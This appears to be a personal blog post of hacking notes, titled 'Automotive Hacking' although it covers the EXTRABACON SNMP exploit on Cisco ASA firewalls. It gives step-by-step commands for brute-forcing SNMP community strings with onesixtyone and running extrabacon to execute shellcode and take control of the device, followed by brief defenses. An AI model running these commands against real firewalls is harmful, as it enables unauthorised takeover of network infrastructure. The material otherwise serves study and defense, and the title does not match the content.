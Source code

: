 ```yaml
---
layout: post
title: Automotive Hacking
subtitle: Overview and Notes
cover-img: /assets/img/path.jpg
tags: [API, Security]
---
```


This exploit requires;
1. SNMP be enabled on the device
2. Knowledge of the community string in any version of SNMP (v1,v2,v3)
2. an attack with IPv4 packets only
4. Access to a system residing on the interface to the firewall


Steps- 
	• Get SNMP <IP> from Wireshark 
	• Use snmpcheck -t <IP>

Cracking SNMP community strings( if not set to "public")
	kali > onesixtyone 192.168.1.102 -c /usr/share/doc/onesixtyone/dict.txt
	
	
	kali > ./extrabacon info -t 192.168.1.101 -c hackers-arise
		This will return a file that we need in exec mode of EXTRABACON. Here, I have named that file OTW
	kali > ./extrabacon_1.1.0.1.py exec -k OTW -t 192.168.1.101 -c hackers-arise --mode pass-enable
		When the exploit is successful, it will execute the shellcode on the Cisco ASA firewall, giving the attacker complete control!
				
Defenses
Until Cisco releases a patch for this exploit, your best defenses are two.
1. Make your SNMP community string long and complex
2. Disable SNMP on the vulnerable device (no snmp-server enable)


For more info - [Reference](https://www.hackers-arise.com/post/2019/03/23/network-basics-for-hackers-simple-network-management-protocol-snmp-theory-reconnaissance)
Zero Day - [NSA Exploit in CISCO ASA]( https://www.hackers-arise.com/post/2016/08/22/the-extrabacon-zero-day-exploit-on-cisco-asa-firewalls)
